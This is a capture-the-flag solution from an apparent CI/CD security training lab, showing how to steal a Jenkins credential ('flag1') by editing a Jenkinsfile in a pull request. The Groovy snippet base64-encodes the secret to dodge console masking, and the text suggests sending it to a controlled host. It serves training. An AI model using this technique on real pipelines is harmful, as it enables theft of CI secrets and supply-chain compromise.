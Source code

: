 [![CICD-SEC-4 Poisoned Pipeline Execution (PPE)](https://img.shields.io/badge/CICD--SEC--4-Poisoned%20Pipeline%20Execution%20(PPE)-brightgreen)](https://www.cidersecurity.io/top-10-cicd-security-risks/poisoned-pipeline-execution-ppe/)

Create a pull request and execute a [Direct-PPE](https://www.cidersecurity.io/blog/research/ppe-poisoned-pipeline-execution/?utm_source=github&utm_medium=github_page&utm_campaign=ci%2fcd%20goat_060422) attack against the _Wonderland/white-rabbit_ repository to steal the _flag1_ secret.

The flag is stored in the Jenkins credential store with the Global scope, which makes it accessible to any pipeline on the Jenkins instance.

1. Clone the _Wonderland/white-rabbit_ repository.
2. Checkout to a new branch.

```shell
git checkout -b challenge1
```

3. Modify the Jenkinsfile to load _flag1_, and print it to the Jenkins build console output which you have access to (encode it so it won’t be masked), or send it to a host you control.

```groovy
stage ('Install_Requirements') {
    steps {

        withCredentials([string(credentialsId: 'flag1', variable: 'flag1')]) {
            sh '''
                echo $flag1 | base64
            '''                 
        }
    }
}
```

4. Push the changes to the remote branch and create a pull request. A pipeline will be triggered automatically.
5. Access the console output of the executed job to get the encoded secret.
![white-rabbit](../images/white_rabbit.png "white-rabbit")